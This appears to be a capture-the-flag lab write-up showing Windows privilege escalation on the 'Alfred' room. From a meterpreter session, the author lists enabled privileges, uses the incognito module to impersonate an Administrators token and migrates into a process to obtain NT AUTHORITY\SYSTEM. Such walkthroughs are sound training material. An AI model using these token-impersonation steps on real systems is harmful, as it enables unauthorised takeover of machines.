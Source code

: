 all this is from the room.


now let check user service privilages
```console
meterpreter > load powershell # load poweshell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS> whoami /priv # check user service privilages

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```
Alfred have 2 enabled privilages that we can abuse:
1. SeImpersonatePrivilege
2. SeDebugPrivilege
Let's use the incognito module that will allow us to exploit this vulnerability. Enter: `load incognito` to load the incognito module in metasploit. read more about incognito [here](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)
```console
meterpreter > load incognito
meterpreter > list_tokens -g # list token 
meterpreter > impersonate_token "BUILTIN\Administrators" # copy token
meterpreter > ps # look for any NT AUTHORITY\SYSTEM priv process, best on is service.exe
meterpreter > migrate <PID>
meterpreter > powershell_shell 
PS > whoami
nt authority\system
```
now get root flag